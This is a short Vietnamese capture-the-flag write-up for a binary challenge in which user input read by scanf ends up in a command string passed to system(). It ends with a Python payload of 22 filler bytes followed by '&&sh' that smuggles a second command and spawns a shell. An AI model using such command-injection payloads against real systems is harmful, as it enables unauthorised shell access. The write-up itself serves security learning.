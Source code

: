 ### Write up linux command

Mở binary lên bằng ida thấy rằng biến command đc thực thi bởi system()


```C++
 system(command);
```




mà ta có thể nhập dữ liệu cho command thông qua
 
```C++
 __isoc99_scanf("%31s", command);
```
mà thấy rằng 

```C++
  qmemcpy(command, "echo \"Welcome to KCSC\"", 22);
```


tức là chỉ có 22 ký tự được đưa vào biến command trong tổng số 32 ký tự, 22 kí tự đó chính là câu lệnh 
```    
"echo \"Welcome to KCSC\""
```

vì có tận 32 được nhập vào, tức là e sẽ phải để 22 ký tự trước đó là chữ gì đó để khi chương trình chạy, câu lệnh có 22 ký tự trên
sẽ đè lên và tiếp theo sẽ là chuỗi ký tự mà chúng ta mong muốn, e sẽ chọn chỗi &&sh đằng sau để nó thực thi shell để truy cập vào hệ thống
  
   ```c++
 char command[32]; // [rsp+0h] [rbp-20h] BYREF
```

```python
payload = b'A'*22 + b'&&sh'
p.sendlineafter(b'What is your name:',payload)
 ```


khi chạy script thì shell được thực thi


![image](https://github.com/antkss/writeUP/assets/88892713/4b027d20-55f3-461d-8dbd-baf8dcd3b2a2)



